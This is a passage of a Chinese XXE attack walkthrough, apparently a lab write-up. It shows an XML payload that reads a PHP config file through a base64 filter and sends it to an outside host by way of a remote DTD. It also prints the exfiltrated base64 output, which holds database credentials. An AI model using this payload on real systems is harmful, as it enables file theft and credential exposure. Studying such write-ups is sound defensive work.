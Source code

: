 

### 2. burpsuite 抓包改包


![](https://nc0.cdn.zkaq.cn/md/8461/dfd89b73ee11b7c7767c5b800c772e13_96007.png)


#### payload 解析

1. 读取 `../conn/conn.php` 文件 。 这里是针对文件  `/weixin/index.php` 的相对路径。 也可以是想要获取的其他文件的绝对路径， 例如 `/ect/password` 。
2. 使用 `convert.base64-encode` 进行编码， 为了数据保真。
3. 定义 DTD (remote)， 引入 `http://59.xx.xx.xx/1.xml` 的 **用户行为** , 其中定义了 `send`
4. 执行`%remote`
5. 执行`%send`

```xml

<?xml version="1.0"?>

<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=../conn/conn.php">

<!ENTITY % remote SYSTEM "http://59.63.200.79:8017/1.xml"> 
%remote;
%send;
]>

```

### 3. 获取带外数据

访问 `http://59.63.200.79:8017/3.txt` 获取带外数据

```
文件修改服务器时间: 2021-04-25 16:47:39
PD9waHAKZXJyb3JfcmVwb3J0aW5nKEVfQUxMIF4gRV9OT1RJQ0UpOyAKaGVhZGVyKCJjb250ZW50LXR5cGU6dGV4dC9odG1sO2NoYXJzZXQ9dXRmLTgiKTsKc2Vzc2lvbl9zdGFydCgpOwokY29ubiA9IG15c3FsaV9jb25uZWN0KCIxOTIuMTY4LjAuMTAiLCJ4eGUiLCAidGVpd28hOCM3RVJlMURQQyIsICJzY21zIik7Cm15c3FsaV9xdWVyeSgkY29ubiwnc2V0IG5hbWVzIHV0ZjgnKTsKZGF0ZV9kZWZhdWx0X3RpbWV6b25lX3NldCgiUFJDIik7CmlmICghJGNvbm4pIHsKICAgIGRpZSgi5pWw5o2u5bqT6L e5o6l5aSx6LSlOiAiIC4gbXlzcWxpX2Nvbm5lY3RfZXJyb3IoKSk7Cn0KJGZ1bmN0aW9uZmlsZT1kaXJuYW1lKCRfU0VSVkVSWyJTQ1JJUFRfRklMRU5BTUUiXSkuIi9kYXRhL2Z1bmN0aW9uLmJhcyI7CiRkYXRhZmlsZT0iZGF0YS9kYXRhLmJhcyI7CiRhamF4ZmlsZT0iZGF0YS9hamF4LmJhcyI7CiRhcGlmaWxlPSJkYXRhL2FwaS5iYXMiOwo/Pg==

```

#### 3.1 数据解析

使用命令 `base64 -d <<<"xxxxxxxx"` 解析数据。

这里有一点问题， 由于某种原因， 获取到的 base64 长度有问题导致无法解析 `Invalid character in input stream.` 。

> tips: 从最后往前， 每个字符依次删除， 在重新解析即可得出结论。
>> 原理: base64 就是针对每个字符进行编码。 字符越长， 编码越长。 无他。
